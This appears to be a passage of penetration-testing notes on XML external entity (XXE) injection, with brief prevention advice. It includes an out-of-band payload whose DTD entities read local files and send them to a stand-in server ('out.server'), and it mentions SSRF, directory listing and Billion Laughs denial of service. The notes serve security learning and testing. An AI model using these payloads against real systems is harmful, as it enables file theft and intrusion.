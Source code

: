 - Testing for `file retrievel` by defining an external entity based on a well-known operation system file and using that entity in data that is returned in the application's response.
- Testing for `Blind XXE vuln` by defining an external Entity based on a URL to a system that you control, and monitoring for interaction with that system.
- Testing for vulnerability inclusion of user-supplied non-XML data within a server-side XML document by using an `XInclude attack` to try to retrieve a well-known operation system file.
- Test on login page  by changing `Content-Type: text/xml` if accept then try
    
    ```bash
    <?xml version="1.0">
    <!DOCTYPE foo SYSTEM "https://myserver/text.dtd">
    <foo>&e1;</foo> 
    # where e1 is inner entity we calling 
    # <!ENTITY % p1 SYSTEM "file:///">
    # <!ENTITY % p2 '<!ENTITY e1 SYSTEM "http://out.server/?%p1;">'>
    # %p2; 
    # commented code is for exploit serever or exploit.dtd
    ```
    

# How to prevent XXE vulnerabilities from Occur.

- all the major XXE vulnerabilities arise because the application's XML parsing library supports potential dangerous XML features that the application does not need of intend to use.
- The easiest and most effective way to prevent XXE attack is to disable those features.
- disable resolution of external entities and disable support for `XInclude`.

# Other Exploitation using XML external entity

- possible XSS using Javascript injection
- Possible SSRF using SYSTEM '[https://localhost](https://localhost/)'
- directory listing using ssrf `SYSTEM "file:///"`
- possible Billion Laugh attack (denial of service attack)

# XXE TO SQLI

- request:

```
<?xml version='1.0'
encoding="UTF-8"?>
<stock><productId>1</productId></stock>

```
